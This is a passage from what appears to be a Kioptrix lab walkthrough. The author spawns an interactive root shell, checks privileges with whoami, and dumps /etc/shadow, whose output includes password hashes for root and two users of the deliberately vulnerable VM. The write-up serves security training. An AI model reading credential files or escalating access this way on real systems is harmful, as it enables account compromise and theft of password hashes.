 This time session did not die. By using ```bash -i``` I'm trying to spawn a TTY interface that enables access to the terminal. If the -i option is present, the shell is interactive.

```bash
bash -i
bash: no job control in this shell
[root@kioptrix tmp]# whoami
whoami
root
```

I'm using the command ```whoami``` to check my permission level and voilà! We have a root!

## Maintaining Access

As root, we can modify and check nearly every aspect of the Linux system, so let's take a look at the file that contains the encrypted passwords of all users.

```bash
[root@kioptrix tmp]# cat /etc/shadow
cat /etc/shadow
root:$1$XROmcfDX$tF93GqnLHOJeGRHpaNyIs0:14513:0:99999:7:::
bin:*:14513:0:99999:7:::
daemon:*:14513:0:99999:7:::
adm:*:14513:0:99999:7:::
lp:*:14513:0:99999:7:::
sync:*:14513:0:99999:7:::
shutdown:*:14513:0:99999:7:::
halt:*:14513:0:99999:7:::
mail:*:14513:0:99999:7:::
news:*:14513:0:99999:7:::
uucp:*:14513:0:99999:7:::
operator:*:14513:0:99999:7:::
games:*:14513:0:99999:7:::
gopher:*:14513:0:99999:7:::
ftp:*:14513:0:99999:7:::
nobody:*:14513:0:99999:7:::
mailnull:!!:14513:0:99999:7:::
rpm:!!:14513:0:99999:7:::
xfs:!!:14513:0:99999:7:::
rpc:!!:14513:0:99999:7:::
rpcuser:!!:14513:0:99999:7:::
nfsnobody:!!:14513:0:99999:7:::
nscd:!!:14513:0:99999:7:::
ident:!!:14513:0:99999:7:::
radvd:!!:14513:0:99999:7:::
postgres:!!:14513:0:99999:7:::
apache:!!:14513:0:99999:7:::
squid:!!:14513:0:99999:7:::
pcap:!!:14513:0:99999:7:::
john:$1$zL4.MR4t$26N4YpTGceBO0gTX6TAky1:14513:0:99999:7:::
harold:$1$Xx6dZdOd$IMOGACl3r757dv17LZ9010:14513:0:99999:7:::
```
